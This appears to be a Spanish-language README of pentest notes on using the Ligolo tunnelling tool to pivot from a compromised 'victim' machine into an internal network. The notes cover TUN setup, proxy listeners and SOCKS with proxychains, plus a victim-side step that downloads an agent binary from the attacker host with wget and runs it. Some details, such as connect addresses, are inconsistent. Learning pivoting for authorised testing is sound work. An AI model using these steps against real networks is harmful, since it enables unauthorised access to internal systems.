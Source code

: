 # 🚀 LIG0L0 - Red Pivoting y Túneles TCP/UDP

LIG0L0 es una herramienta de **pivoting de red y túneles TCP/UDP**, que permite redirigir tráfico de máquinas comprometidas hacia la máquina atacante para realizar pruebas de pentesting internas.

---

## **1️⃣ Preparación del entorno**

### Extraer archivos

```bash
tar -xf ligolo.tar.gz
```
## Crear interfaz TUN en Linux
```bash
sudo ip tuntap add user $USER mode tun ligolo

sudo ip link set ligolo up
```

#Delete the 192.168.98.0/24 IP Range from the tun0 interface :

```bash
sudo ip route del 192.168.98.0/24 dev tun
```

## Configurar red de pivoting
* red_pivoting -> 192.168.1.0/24
```bash
sudo ip route add red_pivoting dev ligolo
```


## 2️⃣ Configuración en Kali Linux (Atacante)
* ip -> 10.0.2.100
* Dar permisos de ejecución al proxy
```bash
chmod +x proxy
```
* Ejecutar el proxy con certificado autofirmado:
```bash
./proxy -selfcert
```
* Puerto usado para la conexión: 11601




## 3️⃣ Configuración en Máquina Pivoting (Victima 1)
* IP de la víctima: 10.0.2.101
* IP interna de red a pivotear: 192.168.1.101


wget http://10.0.2.100/agente

```bash
chmod +x agente

./agente -connect 10.0.2.101:11601  -ignore-cert
```

4️⃣ Operaciones desde Kali

* Iniciar sesión en LIG0L0:

    - session   
    - Enter 
    - start 
* Probar conectividad hacia la red interna:
    - ping -c 1  192.168.1.102  
* Agregar listener para redireccionar tráfico:
    - listener_add --addr 0.0.0.0:4443 --to  127.0.0.1:4443 
    - listener_list

5️⃣ Máquina Victima 2 (Objetivo de Pivoting)  
* IP interna: 192.168.1.102
* Ahora podemos acceder a esta máquina a través de la víctima pivotante usando LIG0L0 y los listeners configurados.

6️⃣ Limpieza / Remoción del Pivoting
* Eliminar ruta de pivoting:

```bash
sudo ip route del red_pivoting dev ligolo
```

* Eliminar interfaz TUN:
```bash
sudo ip link del ligolo
```
---
# MODO Redireccion Todos los Puertos

## 1️⃣ Configuración básica

* En la máquina atacante (Kali):
* Ejecuta el proxy de LIG0L0 con certificado autofirmado:
```bash
chmod +x proxy
./proxy -selfcert
```

## 2️⃣ Redirección de tráfico completo (SOCKS)

* Para que todo el tráfico de la víctima pase a través de Kali, debes configurar LIG0L0 con modo SOCKS y luego usarlo con Proxychains o configurar la ruta:

* En la máquina pivoting, habilita SOCKS:
```bash
./agente -connect 10.0.2.100:11601 -ignore-cert -socks
```

- Nota: el parámetro -socks indica que quieres que el agente cree un proxy SOCKS local en la máquina atacante.

### Configura Proxychains en Kali para usar el SOCKS que creó LIG0L0:
```bash
sudo nano /etc/proxychains4.conf
```

* Agrega o edita la línea:
```bash
socks5 127.0.0.1 1080
```

* 1080 es el puerto del SOCKS que LIG0L0 crea por defecto (ajústalo si usaste otro).

### Prueba redirigiendo tráfico a través del SOCKS:
```bash
proxychains4 curl http://192.168.1.102
```

* Todo el tráfico ahora pasa por el agente LIG0L0 hacia Kali, y luego hacia la red interna.

## 3️⃣ Alternativa: redirección de toda la subred interna

Si quieres que toda la red interna de la víctima pase por Kali:

Configura la ruta en la víctima pivotante:
```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```

* Esto redirige todo el tráfico de la subred 192.168.1.0/24 a través del túnel creado por LIG0L0.

* En Kali, asegúrate de tener el proxy/escucha activo (./proxy -selfcert) y revisa con listener_list que esté funcionando